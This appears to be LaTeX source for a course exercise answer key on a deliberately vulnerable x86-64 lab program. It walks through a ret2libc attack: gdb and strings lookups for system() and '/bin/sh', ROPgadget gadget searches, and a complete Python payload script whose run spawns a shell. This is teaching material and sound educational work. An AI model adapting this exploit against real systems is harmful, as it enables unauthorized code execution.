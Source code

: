 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\theoremstyle{definition}
\newtheorem{exercice}{Exercise}
\begin{document}
\begin{exercice}[StackX64 Project]
\begin{correction}
\textbf{4b)} Address of \texttt{system()}:
\begin{lstlisting}[style=GDBStyle]
(gdb) break main
(gdb) run
(gdb) print system
$1 = {int (const char *)} 0x7ffff7e17290 <__libc_system>
\end{lstlisting}

\textbf{4c)} Finding \texttt{"/bin/sh"}:
\begin{lstlisting}[style=GDBStyle]
$ strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep "/bin/sh"
  1b3d88 /bin/sh
(gdb) info proc mappings
          Start Addr           End Addr  ...  objfile
      0x7ffff7dc0000     0x7ffff7fe8000  ...  libc.so.6
\end{lstlisting}
Address of \texttt{"/bin/sh"} = \texttt{0x7ffff7dc0000 + 0x1b3d88} = \texttt{0x7ffff7f73d88}

\textbf{4d)} \texttt{pop rdi; ret} gadget:
\begin{lstlisting}[style=GDBStyle]
$ ROPgadget --binary stackx64 | grep "pop rdi"
0x0000000000401283 : pop rdi ; ret
\end{lstlisting}

\textbf{4e)} \texttt{ret} gadget (for alignment):
\begin{lstlisting}[style=GDBStyle]
$ ROPgadget --binary stackx64 | grep ": ret$"
0x000000000040101a : ret
\end{lstlisting}

\textbf{4f)} Python3 script for the ret2libc exploit:
\begin{lstlisting}[style=CStyle,language=Python,title=exploit\_phase4.py]
import sys

offset = 72

# Addresses (adjust based on your system)
ret_gadget     = 0x40101a           # ret (alignment)
pop_rdi_ret    = 0x401283           # pop rdi; ret
bin_sh_addr    = 0x7ffff7f73d88     # "/bin/sh" in libc
system_addr    = 0x7ffff7e17290     # system() in libc

def p64(addr):
    return addr.to_bytes(8, byteorder='little')

payload  = b"A" * offset
payload += p64(ret_gadget)       # align stack to 16 bytes
payload += p64(pop_rdi_ret)      # pop rdi; ret
payload += p64(bin_sh_addr)      # rdi = "/bin/sh"
payload += p64(system_addr)      # call system("/bin/sh")

sys.stdout.buffer.write(payload)
\end{lstlisting}

Execution:
\begin{lstlisting}[style=GDBStyle]
$ (python3 exploit_phase4.py ; cat) | ./stackx64
=== StackX64 - Vulnerable Program ===
...
whoami
student
\end{lstlisting}


\end{correction}
\end{exercice}
\end{document}
